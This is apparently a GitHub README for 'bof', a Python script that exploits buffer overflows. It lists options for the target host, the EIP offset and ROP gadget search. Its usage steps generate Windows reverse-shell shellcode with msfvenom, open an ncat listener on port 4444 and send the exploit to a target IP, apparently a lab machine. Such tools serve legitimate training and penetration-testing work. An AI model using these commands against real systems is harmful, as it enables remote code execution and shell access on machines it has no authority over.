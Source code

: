 # bof

Simple script to exploit buffer overdlows

## Usage

usage: bof.py [-h] -H HOST -p PORT -o OFFSET [-e EIP] [-b BIN] [-s SIZE] [-sf SUFFIX] [-pf PREFIX] [-a ARCH] [-O OS]

Exploit buffer overflows.

Options:
- -h, --help            show this help message and exit
- -H HOST, --host HOST  Target host
- -p PORT, --port PORT  Target port
- -o OFFSET, --offset OFFSET EIP offset
- -e EIP, --eip EIP     Value to overwrite EIP with or ROP chain. Ie. 0x01010101,0x02020202,0x03030303
- -b BIN, --bin BIN     Target binary to extract gadgets from. Only ELF!!
- -s SIZE, --size SIZE  Payload size
- -sf SUFFIX, --suffix SUFFIX  Payload suffix, Ie. USER
- -pf PREFIX, --prefix PREFIX Payload prefix, Ie. \n
- -a ARCH, --arch ARCH  Target architecture. Ie. x86 or amd64
- -O OS, --os OS        Target OS. Ie. windows or linux
- -v, --debug           Show debug information


Create custom shellcode and save to shellcode.py
(must be formatted buf = b'\x90\x90\x90\x90...')

    msfvenom -p windows/shell_reverse_tcp ... -f python -a x86 > shellcode.py

Listen for shell

    ncat -lvp 4444


Run by passing the return address to overwrite EIP

    ./bof.py -H 10.10.76.237 -p 31337 --sf $'\n' -o 146 -e '0x080414c3'


Run by passing a binary and search for a JPM ESP ROP automatically


    ./bof.py -H 10.10.76.237 -p 31337 --sf $'\n' -o 146 -b ./vuln

## Install

    git clone git@github.com:sudoaza/bof.git
    cd bof
    pip install -r requirements.txt

